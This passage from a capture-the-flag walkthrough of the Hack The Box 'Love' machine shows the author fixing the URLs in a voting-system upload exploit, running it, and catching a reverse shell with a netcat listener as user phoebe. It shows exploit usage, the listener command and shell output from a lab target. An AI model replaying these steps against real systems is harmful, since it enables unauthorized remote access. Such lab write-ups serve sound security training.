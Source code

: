 It's printing message and seems to fail at `sendPayload()` function.
Let's inspect the code...

```python
INDEX_PAGE = f"http://{IP}/votesystem/admin/index.php"
LOGIN_URL = f"http://{IP}/votesystem/admin/login.php"
VOTE_URL = f"http://{IP}/votesystem/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/votesystem/images/shell.php"
```

I found out that the URLs are suspicious.
During the previous `gobuster` scan, I found out that the page `/admin`'s full URL is `http://love.htb/admin` which doesn't contain `/votesystem`.
Let's remove `/votesystem` and try it again.

```python
INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
```

Now let's run it again.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python exploit.py 
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully
```

Let's check the listener.

```scss
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.239] 50684
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
```

I got `phoebe`'s shell.


# Shell as `Administrator`

### Enumeration
